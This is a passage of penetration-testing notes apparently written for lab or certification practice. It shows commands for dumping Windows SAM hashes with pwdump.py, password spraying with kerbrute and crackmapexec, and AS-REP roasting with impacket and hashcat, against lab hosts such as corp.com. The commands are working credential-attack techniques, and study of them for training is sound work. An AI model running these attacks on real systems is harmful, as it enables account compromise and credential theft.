 ```bash
# creddump7 - Python tool to extract credentials and secrets from Windows registry hives
/usr/share/creddump7
├── cachedump.py
├── framework
├── lsadump.py
├── pwdump.py
└── __pycache_

./pwdump.py /home/kali/Documents/example/exampleA/10.10.124.142/loot/SYSTEM /home/kali/Documents/example/exampleA/10.10.124.142/loot/SAM    
Admin:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

This will provide hashes that you will be able to crack.

#### Windows Password Spraying

```bash
 __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

PS C:\Tools> type .\usernames.txt
pete
dave
jen

# Validate Usernames
PS C:\Tools> .\kerbrute_windows_amd64.exe userenum -d corp.com --dc=dc1.corp.com usernames.txt

# Password Spraying
PS C:\Tools> .\kerbrute_windows_amd64.exe passwordspray -d corp.com .\usernames.txt "Nexus123!"

# If NTLM is enabled, you can use crackmapexec
kali@kali:~$ crackmapexec smb 192.168.50.75 -u users.txt -p 'Nexus123!' -d corp.com --continue-on-success
```

#### AS-REP Roasting

Must have "Do not require Kerberos preauthentication" enabled. Will provide AS-REP hash with session key and TGT, which you can try to crack with HashCat or crackstation.net.

```bash
kali@kali:~$ impacket-GetNPUsers -dc-ip 192.168.50.70  -request -outputfile hashes.asreproast corp.com/pete
kali@kali:~$ sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

We can also perform AS-REP Roasting on Windows using Rubeus. Since we're performing this attack as a pre-authenticated domain user, we don't have to provide any other options to Rubeus except asreproast. Rubeus will automatically identify vulnerable user accounts. We also add the flag /nowrap to prevent new lines being added to the resulting AS-REP hashes.
